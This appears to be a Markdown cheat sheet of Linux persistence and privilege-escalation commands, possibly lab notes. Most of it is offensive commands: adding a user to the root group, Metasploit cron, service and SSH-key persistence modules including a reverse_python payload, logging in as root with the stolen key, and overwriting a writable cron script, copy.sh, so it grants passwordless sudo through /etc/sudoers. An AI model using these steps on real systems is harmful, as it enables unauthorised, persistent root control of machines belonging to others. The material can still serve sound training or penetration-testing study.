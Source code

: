 ```shell
groups root
```
> this is use to check the username that is the part of root or not

```shell
usermod -aG root <user-name>
```
> this is add the user in the root group

***Another Way***

```shell
search platform:linux persistence
use exploit/linux/local/cron_persistence
set session
run
```

```shell
use exploit/linux/local/service_persistence
set session
set payload cmd/unix/reverse_python
set target 4
run
```

```shell
use post/linux/manage/sshkey_persistence
set createsshfolder true
set session
run
```
- recommended

> this also give us private key (use `loot` to see the path)just copy it and exit the msfconsole. Create a new file `nano ssh_key` and add that key.

```shell
chmod 0400 ssh_key
ssh -i ssh_key root@<target-IP>
```

#### Exploiting Misconfigured Cron Jobs & exploit copy.sh

> corbtab file is configuration file in linux

```shell
grep -nri "/tmp/<file-name>" /usr
```
> Check the permissions on this script file and its contents.

```shell
cat /usr/local/share/copy.sh
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo su
```

> On execution, these lines will add a new entry to the /etc/sudoers file which will allow the student user to use sudo without providing any password.
